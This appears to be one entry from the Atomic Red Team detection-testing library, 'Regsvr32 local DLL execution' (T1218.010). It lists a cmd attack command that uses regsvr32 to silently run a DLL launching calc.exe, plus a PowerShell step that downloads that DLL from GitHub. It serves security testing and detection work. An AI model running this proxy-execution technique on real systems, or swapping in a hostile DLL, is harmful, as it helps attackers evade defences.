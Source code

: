 




<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** 08ffca73-9a3d-471a-aeb0-68b4aa3ab37b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | path | PathToAtomicsFolder&#92;T1218.010&#92;bin&#92;AllTheThingsx86.dll|
| regsvr32path | Default location of Regsvr32.exe | path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | string | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
IF "%PROCESSOR_ARCHITECTURE%"=="AMD64" (C:\Windows\syswow64\regsvr32.exe /s #{dll_name}) ELSE ( #{regsvr32path}\#{regsvr32name} /s #{dll_name} )
```




#### Dependencies:  Run with `powershell`!
##### Description: AllTheThingsx86.dll must exist on disk at specified location (#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/bin/AllTheThingsx86.dll" -OutFile "#{dll_name}"
```




<br/>
<br/>
